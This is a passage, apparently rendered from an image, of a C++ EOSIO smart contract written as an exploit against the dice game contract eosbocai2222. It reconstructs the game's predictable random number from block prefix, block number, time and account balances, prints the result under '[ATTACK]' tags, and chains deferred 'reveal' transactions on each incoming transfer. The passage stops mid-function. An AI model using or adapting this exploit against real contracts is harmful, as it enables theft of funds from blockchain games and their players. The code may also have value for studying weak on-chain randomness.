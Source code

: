 ```c++
            asset eosbiggame44_eos = eos_token.get_balance(N(eosbiggame44), symbol_type(S(4, EOS)).name());
            asset total_eos = asset(0, EOS_SYMBOL);

            total_eos = pool_eos + ram_eos + betdiceadmin_eos + newdexpocket_eos + chintailease_eos + eosbiggame44_eos;
            auto amount = total_eos.amount + add;
            auto mixd = tapos_block_prefix() * tapos_block_num() + name + game_id - current_time() + amount;
            print("[ATTACK RANDOM]tapos_block_prefix=>",(uint64_t)tapos_block_prefix(),"|tapos_block_num=>",(uint64_t)tapos_block_num(),"|name=>",name,"|game_id=>",game_id,"|current_time=>",current_time(),"|total=>",amount,"\n");
        
            const char *mixedChar = reinterpret_cast<const char *>(&mixd);

            checksum256 result;
            sha256((char *)mixedChar, sizeof(mixedChar), &result);

            uint64_t random_num = *(uint64_t *)(&result.hash[0]) + *(uint64_t *)(&result.hash[8]) + *(uint64_t *)(&result.hash[16]) + *(uint64_t *)(&result.hash[24]);
            return (uint8_t)(random_num % 100 + 1);
        }

        //@abi action
        void transfer(account_name from,account_name to,asset quantity,std::string memo)
        {
            if (from == N(eosbocai2222))
            {
                return;
            }
            transaction txn{};
            txn.actions.emplace_back(
                action(eosio::permission_level(_self, N(active)),
                    _self,
                    N(reveal1),
                    std::make_tuple(id)
                )
            );
            txn.delay_sec = 2;
            txn.send(now(), _self, false);

            print("[ATTACK] current_time => ", current_time(), "\n");
        }

        //@abi action
        void reveal1(uint64_t id)
        {
            transaction txn{};
            txn.actions.emplace_back(
                action(eosio::permission_level(_self, N(active)),
                    _self,
                    N(reveal2),
                    std::make_tuple(id)
                )
            );
            txn.delay_sec = 2;
            txn.send(now(), _self, false);
            print("[ATTACK REVEAL1] current_time => ", current_time(), "\n");
        }

        //@abi action
        void reveal2(uint64_t id)
        {
```